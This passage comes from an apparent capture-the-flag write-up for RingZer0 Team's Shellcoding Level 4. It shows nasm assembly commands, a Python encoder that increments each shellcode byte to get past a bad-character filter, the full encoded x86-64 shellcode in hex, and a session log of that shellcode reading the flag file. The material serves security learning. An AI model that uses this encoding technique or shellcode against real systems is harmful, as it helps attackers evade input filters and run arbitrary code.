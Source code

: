Now, I could assemble these two shellcode pieces with `nasm`:

```
$ nasm -f bin ./decoder.asm
$ nasm -f bin ./shellcode.asm
```

Then I wrote a small python program to do the actual encoding of the shellcode:

```python
payload = ''

# read in the decoder
with open('decoder') as decoder:
    data = decoder.read()
    for i in data:
        payload += "\\x%02x" % ord(i)
    decoder.close()

# read in the shellcode & encode it
with open('shellcode') as sc:
    data = sc.read()
    # for each byte, we add 1 to it and emit it.
    for i in data:
        payload += "\\x%02x" % (ord(i) + 1)
    sc.close()

# spit out payload!
print payload
```

After running this python script, I ended up with the completed shellcode:

```python
$ python ./encode.py 
\x4c\x8d\x35\x8b\x56\x34\x12\x49\x81\xee\x78\x56\x34\x12\x6a\x2b\x59\x41\xfe\x0e\x49\x83\xc6\x01\xe2\xf7\x6b\x01\x5c\x54\x59\x54\x60\x55\x5f\x6b\x13\x5b\x10\x06\x54\x59\x35\x03\x58\x57\x60\x5f\x10\x06\x51\x57\x58\x5f\x59\x60\x6b\x80\x5b\x10\x06\x54\x59\x35\x02\x51\x60\x10\x06\xc4
```

As you can see, there are no badchars in this shellcode. We can send it over and grab the flag!

```bash
RingZer0 Team CTF Shellcoding Level 4
Submit your shellcode using hex representation "\xcc\xcd".
Type "end" to exit.

This level have shellcode restriction. Bad char list "\x0a\x0d\x2f\xff\x0f\x05\x48" max size 80 bytes.
You main goal is to read /flag/level4.flag

shellcode>\x4c\x8d\x35\x8b\x56\x34\x12\x49\x81\xee\x78\x56\x34\x12\x6a\x2b\x59\x41\xfe\x0e\x49\x83\xc6\x01\xe2\xf7\x6b\x01\x5c\x54\x59\x54\x60\x55\x5f\x6b\x13\x5b\x10\x06\x54\x59\x35\x03\x58\x57\x60\x5f\x10\x06\x51\x57\x58\x5f\x59\x60\x6b\x80\x5b\x10\x06\x54\x59\x35\x02\x51\x60\x10\x06\xc4
    Shellcode received...
    Shellcode length (70) bytes.

    Success: Executing shellcode...

/flag/level4.flag^@
FLAG-<redacted>
Connection to shellcode.ringzer0team.com closed.
```
